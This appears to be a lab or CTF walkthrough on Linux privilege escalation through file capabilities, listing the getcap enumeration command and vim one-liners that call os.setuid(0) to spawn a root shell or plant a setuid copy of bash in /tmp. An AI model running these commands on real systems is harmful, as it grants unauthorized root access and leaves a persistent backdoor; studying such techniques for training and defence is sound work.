




# 🔐 Privilege Escalation: Capabilities

Capabilities help manage privileges at a more granular level. For example, if the SOC analyst needs to use a tool that needs to initiate socket connections, a regular user would not be able to do that. If the system administrator does not want to give this user higher privileges, they can change the capabilities of the binary. As a result, the binary would get through its task without needing a higher privilege user
* **the command used to find capabilities is:**
```bash
getcap -r / 2>/dev/null
```


* **we see two bin we can use to get root privilege by "setuid" : vim , view**

## exploit vim

* **we use command :**

```bash
/home/karen/vim -c ':py3 import os; os.setuid(0); os.system("/bin/bash")'
```


* **then we will get the root shell**



other methods is 

* **upgrade our shell to root by command :**

```bash
/home/karen/vim -c ':py3 import os; os.setuid(0); os.system("cp /bin/bash /tmp/rootbash && chmod +xs /tmp/rootbash")'
```



* **then**

```bash
/tmp/rootbash -p
```

